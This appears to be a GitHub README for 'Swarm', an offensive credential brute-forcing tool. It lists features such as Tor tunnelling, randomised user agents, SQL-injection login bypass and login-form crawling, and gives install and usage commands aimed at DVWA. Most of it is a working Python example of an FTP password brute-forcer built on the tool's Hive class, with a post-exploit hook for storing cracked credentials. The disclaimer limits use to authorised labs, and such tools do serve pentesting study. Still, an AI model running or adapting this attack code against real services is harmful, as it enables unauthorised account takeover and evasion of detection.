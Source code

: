 # DISCLAIMER
**Swarm is for education/research purposes only. The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided.
 The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of ANY files provided with Swarm.
 By using Swarm or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Swarm and ALL files included are for EDUCATION and/or RESEARCH purposes ONLY.
 Swarm is ONLY intended to be used on your own pentesting labs, or with explicit consent from the owner of the property being tested.** 


#About Swarm 
**Swarm is a Bruteforcing pentesting tool for bruteforcing html logins**
##Some Notable Features
* Multi-Threaded
* Randomized user agents
* Able to tunnel requests through tor, just use --tor option
* Able to by-pass logins via SQL Injections if option is specified
* Crawl the domain to discover login forms
* Easy to inherit from Hive to create different types of bruteforcing tools

#Getting Started
To use, first clone the github repo, and then give swarm execute permissions
```shell
git clone https://github.com/szech696/swarm && cd swarm
chmod 755 swarm		
```	
##Installing Dependencies 
```shell
pip install bitarray
pip install -U requests[socks]
pip install pexpect
apt-get install tor
``` 
##Usage

###For all options
```shell
./swarm --help
``` 
###Using on Damn Vulnerable Web App
```shell
./swarm --url='http://localhost/dvwa/login.php' --user-file='usernames.txt' --pass-file='passwords.txt' --verbose --threads=1 
```
##Using Hive to Develop New Tools 
Hive makes developing new bruteforcing tools a breeze! The following is an example of a FTP bruteforcer
```python
from pythonlib.hive import Hive
from ftplib import FTP

# class: FTPHive
# description: Hive used to brute-force FTP Logins
class FTPHive(Hive):
        ftp = None
        def __init__(self):
                Hive.__init__(self)

        # function: attemptLogin        - Overriden
        # param: credential             - The credential to attempt a login with
        # return: Boolean               - True if Success | False if Failure
        # description: This function is responsible for attempting a login with the specified credential
        def attemptLogin(self, credential):
                success = False
                Hive.attemptLogin(self, credential)
                username = credential.username
                password = credential.password
                host = credential.host
                try:
                        self.ftp = FTP(host)
                        result = self.ftp.login(username,password)
                        # If result then this was a successful login
                        if result:
                                success = True
                        self.ftp.close()
                except:
                         pass
                return success

        # function: setup
        # description: Prepares this Hive for its attack, *NOTE* This must be called before start is called
        def setup(self):
                Hive.setup(self)

        def post_exploit(self,credential):
                # -------- Do Something ----------
                # Such as display a custom login message
                # Store credentials in a Database, etc.
                exit()

threadCount = 4
ftp_bruteforce = FTPHive()
ftp_bruteforce.target = 'ftp_server_address'                    # specify the target
ftp_bruteforce.usernameFile = 'usernames.txt'                   # the username file to use
ftp_bruteforce.passwordFile = 'passwords.txt'                   # the password file to use
ftp_bruteforce.verbose = True                                   # verbose output
ftp_bruteforce.setOnSuccessHandle(ftp_bruteforce.post_exploit)  # Normally you would just do this in setup, but for demonstration purposes
ftp_bruteforce.setup()                                          # setup must be called before start, and after username/usernameFile, passwordFile, and target have been set
ftp_bruteforce.start(threadCount)                               # starts the bruteforcing task

```

